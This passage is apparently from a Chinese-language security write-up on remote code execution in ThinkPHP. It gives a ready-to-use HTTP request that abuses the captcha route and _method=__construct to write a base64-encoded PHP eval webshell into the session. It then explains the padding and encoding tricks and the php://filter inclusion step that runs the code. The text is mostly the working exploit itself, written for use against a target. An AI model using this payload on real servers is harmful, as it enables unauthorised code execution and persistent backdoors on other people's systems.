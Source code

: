 
那么这里也一样，我们只要构造合适的字符，使得我们的webshell能够正确被base64解码即可。

本地测试

第一步，设置session

```


1.  POST /?s\=captcha

3.  \_method\=\_\_construct&filter\[\]=think\\Session::set&method\=get&get\[\]=adPD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8%2bab&server\[\]=1


```

(注意：这里的+号需要用`urlencode`编码为%2b，不然会在写入`session`的时候被urldecode为空格，导致编码解码失败)。

疑问点1：为什么不用`PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Pz4= (<?php @eval($_GET['r']);?>)`而是`PD9waHAgQGV2YWwoJF9HRVRbJ3InXSk7Oz8+ (<?php @eval($_GET['r']);;?>)` 呢，

答：是因为直接使用前者无论怎么拼凑字符，都没法正常解码。

疑问点2：为什么`payload`前后会有两个`ab`？

答：是为了让`shell payload` 的前后两串字符串满足base64解码的长度，使其能正常解码。

第二步，包含，成功执行代码：

![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL3h6ZmlsZS5hbGl5dW5jcy5jb20vbWVkaWEvdXBsb2FkL3BpY3R1cmUvMjAxOTA4MjYwOTAwMDgtZDkzYTFlZjYtYzc5Yy0xLnBuZw==.jpg)

本地测试如此，但是在目标测试会发现执行不了，因为我们的payload使用了`php://filter`的协议包含了`php://`关键字  
![](%E8%AE%B0%E4%B8%80%E6%AC%A1%E6%9C%89%E8%B6%A3%E7%9A%84thinkphp%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/L3Byb3h5L2h0dHBzL2ltZzIwMTguY25ibG9ncy5jb20vYmxvZy8xMjA1NDc3LzIwMTkwOC8xMjA1NDc3LTIwMTkwODI3MTAxNjAwMjQxLTE2MTMyNTU0NC5wbmc=.jpg)

